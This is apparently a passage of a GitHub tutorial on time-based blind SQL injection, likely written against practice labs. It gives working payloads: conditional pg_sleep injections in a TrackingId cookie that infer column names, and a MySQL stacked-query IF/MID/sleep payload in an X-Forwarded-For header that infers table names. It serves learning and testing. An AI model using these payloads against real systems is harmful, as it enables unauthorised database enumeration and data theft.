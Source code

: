 <h2>Find A Column_Name</h2>

We can infer a column_name with the same conditional time-delays that we used above. With conditional-time delays, we can either infer the entire column_name all at one, or one character at a time. See payload and image below.

Payload - Cookie: TrackingId='||(select+case+when+(select+column_name+from+information_schema.columns+where+table_name='users'+limit+1)='username'+then+pg_sleep(5)+else+pg_sleep(0)+end)||'

<mark>True Condition</mark>

<img width="1912" height="696" alt="find-column_name-all-at-once" src="https://github.com/user-attachments/assets/1b4759fb-ef54-4456-b3a6-f2fe579d4d68" />


<h2>Find A Column_Name One Character At A Time</h2>

Here we are infering the column_name one character at a time. See payload and image below.

Payload - Cookie: TrackingId='||(select+case+when+(select+substring(column_name,1,1)+from+information_schema.columns+where+table_name='users'+limit+1)='u'+then+pg_sleep(5)+else+pg_sleep(0)+end)||'

<mark>True Condition</mark>

<img width="1908" height="696" alt="find-column_name-one-char-at-a-time" src="https://github.com/user-attachments/assets/c5bddbd5-4f51-4de6-b780-1772e5a18ba7" />


<h1>Time-Based SQL Injection - Stacked Query - Conditional Time Delay</h1>

<h2>Causing A Time Delay</h2>

Payload - Cookie: TrackingId='%3bselect+pg_sleep(3)--

<img width="1906" height="696" alt="causing-a-time-delay-stacked-query" src="https://github.com/user-attachments/assets/cfd9aded-db39-4507-8611-aa9e7000f491" />

<h2>Finding A table_name using MID()</h2>

<mark>Scenario:</mark>
Server tracks users IP address and includes it in a sql query. The results of the query have no visible result on the front-end display, but users can still inject a Stacked-Based, Conditional Time-Delay.
DBMS=MySQL

Payload - X-Forwarded-For: 1';select if((mid((select table_name from information_schema.tables where table_schema='sqhell_1' limit 0,1),1,1)='f'),sleep(5),3204)#

<h3>MySQL Syntax Explanation</h3>

IF(condition, value_if_true, value_if_false)

LIMIT 0,1 - skip 0 rows, return 1 row

MID(string, start_position, length)

Analyze image below

<img width="1900" height="660" alt="true-time-based-find-table-name" src="https://github.com/user-attachments/assets/cabb3dde-a4b0-47e3-9872-94901434efdf" />

<h2>Finding A table_name using SUBSTRING()</h2>

You can also use substring() to infer a table_name one character at a time. See below.
